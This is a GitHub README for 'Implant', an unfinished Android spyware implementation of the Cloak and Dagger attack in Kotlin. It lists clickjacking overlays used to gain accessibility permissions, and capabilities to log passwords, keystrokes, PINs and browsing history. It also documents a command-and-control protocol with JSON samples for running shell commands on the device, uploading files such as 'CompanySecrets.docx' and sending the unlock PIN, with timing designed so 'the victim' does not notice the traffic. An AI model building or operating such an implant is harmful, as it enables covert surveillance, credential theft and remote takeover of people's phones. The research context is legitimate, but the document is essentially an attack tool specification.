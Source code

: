 Cloak and Dagger Implementation
===============================
Implant is an (unfinished) implementation of the Android Clock and Dagger vulnerability in Kotlin.
To learn more about Cloak and Dagger see, http://cloak-and-dagger.org.

If the overlays do not display correctly on your phone, adjust the overlay dimensions in the
relevant Stage subclasses.
Currently only the AccessibilityStage of the attack automatically determines the position of the
UI elements being clickjacked.

You can contact me at cooper@cooperthecoder.com.
Pull requests, questions, suggestions and criticism are welcomed.


Requirements
============
+ Android Studio with Kotlin support (3.0+ or with Kotlin plugin)

Installing Implant
==================
To install Implant, import this code into a version of Android Studio with Kotlin support.
Since Android only grants the SYSTEM_ALERT_WINDOW permission to apps from the Play Store, you'll
have to manually enable the permission and press the back button to begin the attack, or publish
it to the Play Store.
Implant uses coloured translucent overlays to show exactly what is going on in the background.
Simply click the holes in the overlay to progress the attack.

Supported Devices
-----------------
+ Nexus 5X Nougat
+ Nexus 5X Marshmallow
+ Nexus 4 Lollipop

Accessibility Service Capabilities
==================================
Done
----
+ Log non-password keystrokes
+ Log browser history
+ Log selected text
+ Log applications used
+ Log Security Pin
+ Log password keystrokes

To Do
-----
+ Install additional payload from an APK

Overlay Capabilities
====================
Done
----
+ Determine the position of our AccessibilityService in the Settings Menu dynamically
+ Clickjacking -> a11y working on some screen sizes

To Do
-----
+ Determine the location of all clickjacking targets dynamically

Command and Control
===================
Implant uses push notifications in order to receive commands from the C&C.
This will enable the operator to interact with devices under her control in a chat-like
manner.
To avoid finishing the victim's mobile data allowance, no large payloads are transmitted
on mobile connections.
Instead, payloads are sent via push as URLs and added to a queue locally to be
downloaded when the victim connects to an unmetered Wi-Fi network.
Large uploads are handled similarly.
When an upload command is sent via push, the data will be encrypted using the server's
public key and queued for upload when the victim connects to Wi-Fi.

Supported Operations
--------------------
+ Queue files for upload when device is idle and connected to Wi-Fi
+ Execute shell commands from the C&C

Push Service
------------
The CommandService is started whenever the device is idle and connected to an
unmetered network.
It opens a MQTT connection to the C&C and listens for commands.
On startup, the client signals it is ready to receive commands by sending its unique
Android device ID.
When the user disconnects from the unmetered network, this service should stop
immediately and close the socket.
All messages between client and server represent remote function calls.

#####Message Format
Key | Type | Description
----|------|----------------
command | String | The function to be called on the remote end.
arguments | Map(String -> String) | Arguments to be passed to the function.
nonce | String | A unique ID to allow for tracking of command execution. The nonce does not have to be random but must be unique

#####Execute
The `execute` command allows the server to execute a shell command on the device.
```
{
    "command": "execute",
    "nonce": "1234-5467-4353-6468"
    "arguments": {
        "shell_command": "whoami"
    }
}
```

#####Upload
The `upload` command allows the server to queue a file on the device for uploading when the device
is idle and connected to an unmetered network.
```
{
    "command": "upload",
    "nonce": "1234-5467-4353-1359"
    "arguments": {
        "filename": "/sdcard/Documents/CompanySecrets.docx"
    }
}
```

#####Pin
The `pin` command sends the device's unlock PIN to the server.
```
{
    "command": "pin",
    "nonce": "1234-5467-4353-1234"
    "arguments": {}
}
```

#####Reply
Sometimes, the output of a command is useful.
The `reply` command should be used to send a reply to the server.
Since there is no guarantee that commands will execute in order, the nonce should be used to
track which command the response is for.
```
{
    "command": "reply"
    "nonce": "1234-5467-4312-0987"
    "arguments": {
        "command": "1234-5467-4353-1359",
        "output": "/sdcard/Documents/CompanySecrets.docx queued for upload.",
        "error": ""
    }
}
```

All messages are encrypted with the server's public key before being sent to the C&C via a TLS 
connection.


Disclaimer
==========
I am not responsible for anything illegal, immoral or stupid you do with this code.
Please use it for educational purposes only.